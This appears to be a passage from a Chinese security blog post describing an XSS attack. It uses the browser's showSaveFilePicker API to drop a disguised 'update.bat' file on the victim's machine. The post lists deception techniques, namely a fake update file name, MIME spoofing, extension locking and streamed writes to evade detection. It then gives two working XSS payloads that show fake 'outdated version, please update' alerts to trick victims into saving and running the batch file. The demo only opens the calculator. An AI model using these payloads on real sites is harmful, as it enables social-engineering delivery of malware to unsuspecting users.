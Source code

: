 **用到的核心API是showSaveFilePicker**  
```
ounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(line
他是现代浏览器API，用于请求用户保存文件，弹出系统级保存对话框。

关键参数

suggestedName: 'update.bat'

types: [{accept: {'application/bat': ['.bat']}}]
```  
1. 使用文件名伪装suggestedName: 'update.bat'  
利用系统更新文件的命名习惯降低用户戒心  
  
1. MIME类型欺骗，声明types: [{accept: {'application/bat'  
类型，绕过对text/plain  
或application/octet-stream  
的过滤  
  
1. 扩展名锁定，强制指定types: [{accept: {'application/bat': ['.bat']}}]  
扩展名，确保文件可执行性  
  
1. 恶意内容注入，使用createWritable + write的方式来写入文件 const w = await f.createWritable();  
  
1. 流式写入，采用WritableStream API避免内存中拼接完整文件内容，规避基于内容长度的检测  
  
**现在效果是这样的**  
1. 点击payload标签栏，就能触发xss代码，自动弹窗资源管理器，保存update.bat文件，但是这一步需要用户确认保存  
  
![image-20250505153144546](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldyVQGwZwhujGAGicyGT0XzvXf5U939VXU5bBDUofpXiaa7Mc7uo2j7I81o1U4kTyKdaeGXzwdVr7yibA/640?wx_fmt=png&from=appmsg "")  
  
  
2.保存之后，还是需要用户自己去运行bat文件才能弹出计算器  
  
![image-20250505153409554](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldyVQGwZwhujGAGicyGT0XzvXSnKcUFSz3WRMjOA0u59Q8vgGEETd3DaOOgCwmic6Mh1lDN2tj0IpO2w/640?wx_fmt=png&from=appmsg "")  
  
3.很鸡肋是不是哈哈，于是我们需要加入弹窗，欺骗一下下受害者  
```
ounter(line
<input style="content-visibility:auto" oncontentvisibilityautostatechange="(async()=>{if(confirm('是否保存更新文件 update.bat？')){const f=await window.showSaveFilePicker({suggestedName:'update.bat',types:[{accept:{'application/bat':['.bat']}}]});const w=await f.createWritable();await w.write('start /min calc.exe');await w.close();alert('文件已保存，请运行 update.bat 文件以启动计算器。');}})()">
```  
  
4.这样要稍微好一点点  
```
ounter(line
<input style="content-visibility:auto" oncontentvisibilityautostatechange="(async()=>{alert('当前版本过旧，可能存在漏洞险，请下载更新程序更新到最新版本！'); const f=await window.showSaveFilePicker({suggestedName:'update.bat',types:[{accept:{'application/bat':['.bat']}}]});const w=await f.createWritable();await w.write('start /min calc.exe');await w.close();alert('更新程序下载完成，请运行程序自动更新！');})()">
```  
  
5.点击payload标签栏，触发xss代码弹窗，提示版本老旧，存在漏洞风险更新  
  
![image-20250505160805491](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldyVQGwZwhujGAGicyGT0XzvX6ibB7jjTPKUMQBibMdv06BRYwQfpojjRISsQUY6qorod1dX1yNq5fic5w/640?wx_fmt=png&from=appmsg "")  
  